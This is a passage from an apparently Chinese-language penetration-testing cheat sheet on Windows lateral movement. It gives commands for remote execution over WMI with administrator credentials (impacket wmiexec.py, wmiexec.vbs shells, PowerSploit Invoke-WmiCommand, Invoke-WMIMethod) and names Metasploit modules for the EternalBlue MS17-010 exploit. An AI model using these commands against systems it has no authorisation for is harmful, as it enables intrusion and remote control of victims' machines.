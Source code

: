 ### [](#impacket-%E5%8C%85%E4%B8%AD%E7%9A%84-wmiexec)impacket 包中的 wmiexec

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```cmd<br>wmiexec.py administrator:password@IP<br>``` |

### [](#wmiexecvbs)wmiexec.vbs

半交互式 shell

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```cmd<br>cscript.exe //nologo wmiexec.vbs /shell IP administrator password<br>``` |

执行单条命令

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```cmd<br>cscript.exe wmiexec.vbs /cmd IP administrator password "ipconfig"<br>``` |

对于运行时间较长的命令，例如 `ping`、`systeminfo`，需要加入 `-wait 5000` 命令或者更长等待时间。在运行 `nc` 等不需要输出单需要一直等待运行的进程时，需要使用 `-persist` 参数。

### [](#invoke-wmicommand)Invoke-WmiCommand

powersploit 工具包中

将 `Invoke-Wmicommand.ps1` 导入系统

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>``` | ```powershell<br>$User = "pentest.hacker\administrator"<br><br>$Password = ConvertTo-SecureString -String "password" -AsPlainText -Force<br><br>$Cred = New-Object -TypeName System.Management.AutoMation.PSCredential -ArgumentList $User, $Password<br><br>$Remote = Invoke-WmiCommand -Payload {ipconfig} -Credential $Cred -ComputerName IP<br><br>$Remore.PayloadOutput<br>``` |

### [](#invoke-wmimethod)Invoke-WMIMethod

利用 `powershell` 自带的 `Invoke-WMIMethod` ，非交互，无回显。

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```powershell<br>$User = "pentest.hacker\administrator"<br><br>$Password = ConvertTo-SecureString -String "password" -AsPlainText -Force<br><br>$Cred = New-Object -TypeName System.Management.AutoMation.PSCredential -ArgumentList $User, $Password<br><br>$Remote = Invoke-WMIMethod -Class Win32_Process -Name Create -ArgumentList "calc.exe" -Credential $Cred -ComputerName IP<br>``` |

## [](#%E6%B0%B8%E6%81%92%E4%B9%8B%E8%93%9D%E6%BC%8F%E6%B4%9E)永恒之蓝漏洞

-   auxiliary/scanner/smb/smb\_ms17\_010
-   exploit/windows/smb/ms17\_010\_eternalblue

## [](#smbexec)smbexec

### [](#c-%E7%89%88%E6%9C%AC-smbexec)C++ 版本 smbexec
